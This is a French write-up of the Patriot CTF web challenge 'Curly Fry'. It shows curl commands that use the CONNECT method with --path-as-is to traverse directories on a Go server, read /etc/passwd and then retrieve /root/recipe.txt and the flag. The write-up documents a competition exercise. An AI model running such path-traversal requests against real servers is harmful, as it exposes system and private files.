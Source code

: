 # Patriot CTF

## Web

### Curly Fry

**Difficulté :** Facile

**Enoncé :** Qui a besoin de Flask quand vous avez Golang -- la nouvelle méta pour les applications web.

Jetez un coup d'oeil à ce site web super élégant et fonctionnel.

***

A la connexion sur cette URL, on tombe sur la page **index.hmtl** avec le code source suivant :

```html
<html>
  <head>
    <title>Curly Fry</title>
  </head>
  <body>
    <h2>I will release my secret curly fry recipe when I am ready. For now it is safely held in my /root directory</h2>
  </body>
</html>
```

On se doute donc qu'il faut accéder à un fichier dans le répertoire **/root**.

Il existe un exploit qui permet d'accéder à des ressources non-autorisées grâce à une requête CONNECT sur des serveurs web en Golang.

J'essaye dans un premier temps d'accéder au fichier **/etc/passwd** via curl : 

```
curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../..
/etc/passwd
```

Via la requête, j'accède bien au fichier souhaité :

![image](https://user-images.githubusercontent.com/49941629/166076146-30bb3dff-12a2-4c41-b867-73f19eb2b62b.png)

Ceci dit, impossible d'exécuter une commande pour lister le contenu du répertoire /root.

Après relecture du code source HTML, je découvre l'existence du fichier recipe.txt. 

Je relance donc ma commande curl avec le chemin complet et je récupère le contenu : 

```
curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../../root/recipe.txt
```

![image](https://user-images.githubusercontent.com/49941629/166076128-1acaa89b-ad4e-4c55-900e-5062165d01f0.png)

FLAG : PCTF{tru5t_m3_im_4_ch3f}

